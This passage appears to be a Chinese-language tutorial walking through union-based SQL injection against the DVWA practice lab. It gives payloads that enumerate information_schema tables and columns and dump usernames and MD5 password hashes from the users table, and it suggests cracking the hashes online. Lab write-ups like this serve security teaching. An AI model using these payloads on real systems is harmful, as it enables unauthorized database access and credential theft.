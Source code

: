 
	> information_schema 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table__name 和 tableschema，分别记录 DBMS 中的存储的表名和表名所在的数据库。_

	- 输入以下语句进行查询：

	```sql
	1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#
	
	```


	![20190502152239.png](../post_images/20109ba3ba41bd6d78fdb307ac9d0a0e.png)

4. 获取表中的字段名输入以下语句进行查询：说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last__login,failedlogin。_

	```sql
	1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
	
	```


	![20190502152953.png](../post_images/5790432763631c96064c8c9355b56b83.png)

5. 获取users表中的所有数据输入以下语句进行查询：得到了所有用户的用户名和密码，密码使用MD5加密后的字符串，使用在线MD5解密网站解密即可。

	```sql
	1' union select user,password from users#
	